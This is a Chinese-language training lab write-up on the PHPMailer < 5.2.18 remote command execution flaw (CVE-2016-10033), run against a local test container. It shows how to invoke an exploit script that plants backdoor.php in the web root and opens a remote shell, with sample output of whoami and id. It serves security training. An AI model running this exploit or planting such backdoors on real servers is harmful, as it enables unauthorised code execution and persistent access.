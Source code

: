 # PHPMailer < 5.2.18 远程命令执行漏洞

## 【实验原理】

这个致命的漏洞是由class.phpmailer.php没有正确处理用户的请求导致的。结果远程攻击者能够在有弱点的服务器上远程执行代码。

## 【实验目的】

提高学员的综合实战能力。以及对提升学员对phpmailer邮件系统的理解。

## 【实验环境】

Ubuntu 64位操作系统。

## 【实验工具】

浏览器

## 【实验步骤】

### Exp

**Exp 使用方法：**

`$ ./exp.sh host:port`

假设容器启动后访问的地址为：http://127.0.0.1:8000/

`$ ./exp.sh 127.0.0.1:8000`

执行完后耐心等待一会（比较慢，大概2分钟以内），就会向服务器中写入 `backdoor.php `文件(写入的物理路径见`exp.sh`,默认写入到`/var/www/html/`目录下)，然后就看到如下输出：

```shell
➜ ./exp.sh 127.0.0.1:8000
[+] CVE-2016-10033 exploit by opsxcq
[+] Exploiting 127.0.0.1:8000
[+] Target exploited, acessing shell at http://127.0.0.1:8000/backdoor.php
[+] Checking if the backdoor was created on target system
[+] Backdoor.php found on remote system
[+] Running whoami
www-data
RemoteShell> id
[+] Running id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## 【实验总结】

本次实验主要是模拟真实环境中对phpmailer邮件系统的理解以及利用提取有效信息。
